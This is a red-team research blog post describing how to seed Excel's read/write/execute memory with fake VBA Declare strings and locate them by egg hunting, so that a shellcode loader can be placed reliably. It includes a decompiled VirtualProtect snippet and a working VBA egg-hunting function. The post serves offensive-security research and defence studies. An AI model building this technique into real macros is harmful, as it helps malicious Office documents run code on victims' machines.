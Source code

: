 ```yaml
---
title: "VBA: overwriting R/W/X memory in a reliable way"
date: 2024-07-07 00:00:00 +00:00
modified: 2024-07-07 00:00:00 +00:00
tags: [red team, research, VBA, macros, X-C3LL]
description: Finding a way to reuse R/W/X memory with VBA and how to avoid crashes
image: 
---
```



Dear Fell**owl**ship, today's homily is an addendum to our previous homily "[VBA: having fun with macros, overwritten pointers & R/W/X memory](https://adepts.of0x.cc/vba-hijack-pointers-rwa/)". After writing the previous post our owls met in a parliament to deliberate how to add stability to the technique shown. After a few exchanges of ideas lubricated by the consecrated wine, the solution was found. This solution was presented to the public during the [EuskalHack VII](https://github.com/X-C3LL/congresos-slides/blob/master/Offensive%20VBA.pdf) conclave.

# Prayers at the foot of the Altar a.k.a. disclaimer
*I am writing this article after EuskalHack VII as an addedum to my previous post on this topic. When I presented this technique on this blog I did not have a reliable way to find a place where to place the shellcode, but weeks after I found a solution. In this short article I describe this solution to make the technique 100% reliable.*

# A quick recap

If you remember our article "[VBA: having fun with macros, overwritten pointers & R/W/X memory](https://adepts.of0x.cc/vba-hijack-pointers-rwa/)" we executed our shellcode by just using a primitive to move memory from point A to point B, so we could overwrite a pointer that would let us hijack the natural program flow and jump to our shellcode. Also we found that VBA is a sinner does nasty things like this:

```c
1800eec9c  long UpdatePageProtection(void* __ptr64 arg1, unsigned long arg2)

1800eecad      enum WIN32_ERROR var_10 = NO_ERROR
1800eecd3      void var_c
1800eecd3      if (VirtualProtect(lpAddress: arg1, dwSize: zx.q(arg2), flNewProtect: PAGE_EXECUTE_READWRITE, lpflOldProtect: &var_c) == 0)
1800eecd5          enum WIN32_ERROR rax_2 = GetLastError()
1800eece4          enum WIN32_ERROR var_14_1
1800eece4          if (rax_2 s> NO_ERROR)
1800eed02              var_14_1 = zx.d(rax_2.w) | 0x70000 | 0x80000000
1800eecea          else
1800eecea              var_14_1 = rax_2
1800eed0a          var_10 = var_14_1
1800eed17      return var_10
```

This little Eden is eager to be colonised by our shellcode, where it can enjoy a peaceful life. The problem is that in reality it is an illusion: this land is extremely unstable. In general, there are two problems:
1. This memory region is continously being overwritten, so by the moment we jump to it maybe the shellcode was corrupted or totally wiped.
2. This memory region cotains data that is used by Excel, so if we overwrite something useful... it would end in a crash.

# Finding an oasis in the desert

In VBA a **Declare** sentence is only "executed" when the macro calls to that function/sub. This means we can have fake **Declare** for exports that does not exists and it is not going to return any error as long as we do not call that function. For example:
```vb
Private Declare PtrSafe Function ajjj13371337AdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdept Lib "KERNEL32" () As LongPtr
```

The magic happens when we discover that this string is present in the R/W/X memory region:

<figure>
<img src="/VBA-RWX-ADDENDUM/rwx.png" alt="Attacker controlled string placed at RWX memory"> 
<figcaption>
Attacker controlled string placed at RWX memory
</figcaption>
</figure>

This means that we can use this trick to seed the R/W/X memory region with placeholders (~250 bytes) that can be overwritten with a small loader divided in chunks! To find the placeholders we can add a small "tag" (one different for each placeholder) as prefix and then search for it (classic egg hunting technique).
```vb
Function findEgg() As LongPtr
    Dim mbi As MEMORY_BASIC_INFORMATION
    Dim ret As LongPtr
    Dim dwLenght As LongPtr
    Dim j As Long
    Dim check As Long
    Dim found As Integer
    found = 0
    j = 1
    For i = 0 To 500000
        ret = VirtualQuery(addr, mbi, LenB(mbi))
        If mbi.Protect = 64 Then
		For k = 0 To mbi.RegionSize - 4 Step 1
                Call CopyMemory(VarPtr(check), mbi.BaseAddress + k, 4)
                If check = 926102321 Then '1337
                    findEgg = mbi.BaseAddress + k
                    found = 1
                    Exit For
                End If
            Next k
            If found = 1 Then
                Exit For
            End If
        End If
        addr = mbi.BaseAddress + mbi.RegionSize
    Next i
End Function
```

# EoF

We hope you enjoyed this reading! Feel free to give us feedback at our twitter [@AdeptsOf0xCC](https://twitter.com/AdeptsOf0xCC).


